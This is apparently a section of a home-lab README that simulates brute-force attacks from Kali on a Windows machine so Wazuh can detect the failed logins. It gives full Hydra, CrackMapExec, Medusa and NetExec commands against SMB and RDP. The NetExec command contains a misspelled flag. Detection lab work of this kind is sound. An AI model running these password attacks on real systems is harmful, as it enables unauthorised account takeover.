




# ⚔️ PHASE 5 — ATTACK SIMULATION (KALI)
## 🔍 Get Windows IP
On Windows:
```
$ ipconfig
```
## 💣 Run Attack

### On Kali:

#### There are the some Tools to run in Kali Terminal.
### 1. Hydra :  Hydra is a brute-force password cracking tool

 #### Use
- Used to try many passwords automatically on a service
```
$ hydra -I -l Administrator -P /usr/share/wordlists/rockyou.txt smb://<Windows_ip>
$ hydra -I -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<Windows_ip>
```


##### SMB ? SMB is a protocol used for file sharing in Windows networks.

##### RDP ? RDP is used to remotely access and control a Windows system.

### 2. CrackMapExec : CrackMapExec (CME) is a network attack & post-exploitation tool

#### Use
- Test credentials on multiple machines
- Execute commands remotely
- Enumerate network
```
$ crackmapexec smb 192.168.0.165 -u Administrator -p /usr/share/wordlists/rockyou.txt
```


### 3. Medusa : Medusa is another brute-force tool (like Hydra)

#### Used to attack:
- SSH
- FTP
- RDP
- SMB
```
$ medusa -h 192.168.0.165 -u Administrator -P passwords.txt -M rdp
```


### 4. NetExec (NXC SMB)  : NXC (NetExec) is the modern version of CrackMapExec

#### Used for:
- SMB login testing
- Credential validation
- Command execution
```
$ nxc smb 192.168.0.165 -u Administrator -P /usr/share/wordlists/rockyou.txt --igonre-pw-decoding
```
##### --ignore-pw-decoding: A critical flag for Python-based tools. It tells the tool to ignore characters in the wordlist that are not UTF-8 compatible, preventing the UnicodeDecodeError you encountered earlier.


### 👉 This all creates:
-	Multiple failed logins
-	Possible successful login


## 🔥 SIMPLE COMPARISON

|Tool	|Type	|Main Use|
|-----|-----|--------|
| Hydra	| Brute force	| Password attacks |
| Medusa	| Brute force	| Faster password attacks |
| CrackMapExec	| Post-exploitation	| Network attacks |
| NetExec (NXC)	| Advanced CME	| SMB exploitation |

###  All these tools:

- Generate login attempts
- Trigger Event ID 4625
- Help detect attacks in Wazuh

## 🎯 BEST FOR the PROJECT
 Use:

✅ Hydra (easy + works with RDP)

✅ NXC / CME (for advanced demo)

